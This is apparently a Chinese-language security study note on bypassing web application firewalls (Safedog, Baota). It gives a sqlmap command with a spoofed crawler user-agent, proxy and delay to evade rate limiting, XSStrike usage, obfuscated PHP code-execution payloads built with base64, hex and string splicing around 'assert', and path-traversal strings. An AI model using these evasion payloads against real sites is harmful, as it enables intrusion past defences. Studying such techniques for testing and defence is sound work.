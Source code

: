 ```yaml
---
title: "WAF漏洞利用" # 文章标题.
date: 2023-04-30
draft: false
tags: ["WAF绕过"]
categories: ["WAF绕过"]
---
```


# WAF漏洞利用

![WAF绕过](./WAF绕过.png)

## SQL 注入

### 注入方式

#### 手工注入

简单、不需要考虑CC 防护

#### 工具注入

sqlmap 速度很快，会触发CC防御，safedog CC 绕过

1. 修改user-agent，使用搜索引擎的头去绕过
2. 代理池：换ip
3. 延时设置： --delay

注入的编写sqlmap的tamper模块（自写注入规则），进行绕过。

```sqlmap
python sqlmap.py -u "http://192.168.132.139/mypage/sqli-labs/Less-1/?id=1" --user-agent="Mozilla/5.0 (compatible; Baiduspider-render/2.0; +http://www.baidu.com/search/spider.html)" --proxy="http://127.0.0.1:8080" --batch --delay 3
```

其中

--delay是延迟，--proxy是代理，--temper是自己的注入规则。

如果是宝塔，会检测`/*` ，解决方法，在`/*`之前使用%00截断（这种方法也失效了）

## 文件上传

直接文件后缀名截断即可，参考前面的内容[[网安笔记/文件操作/WAF安全狗绕过/index#常见绕过方法]]

## XSS

利用 XSStrike 绕过 加上--timeout 或--proxy 绕过 cc

```
xsstrike.py -u "目标网址" --timeout x  延时
xsstrike.py -u "目标网址" --proxy  代理地址
```

## RCE

绕过方法

1. base64，有一个问题就是，当你使用base64_decode对`phpinfo();`进行编码的时候没有办法在相应的页面显示。`assert(base64_decode("cGhwaW5mbygpOw=="));`

2. 十六进制，`assert(pack("H*",'706870696e666f28293b'));`

3. 字符替换，`assert(str_replace('x','','pxhpxinxfo()'));`

4. 提交方法，可以将GET修改为REQUEST。

   ```php
   $X='asse';$xx=$_GET['x'];$xxx=$X.$xx;$y=str_replace('x','','pxhpxinxfo()');$xxx($y);
   ```

   ![更改提交方法](./更改提交方法.png)

5. url编码

6. 拼接加替换

   ```php
   $X='asse';$xx='rt';$xxx=$X.$xx;$y=str_replace('x','','pxhpxinxfo()');$xxx($y);
   ```

## 文件包含

没什么好说的就这几种：`..\`， `..../`，`..\.\`，`../`。
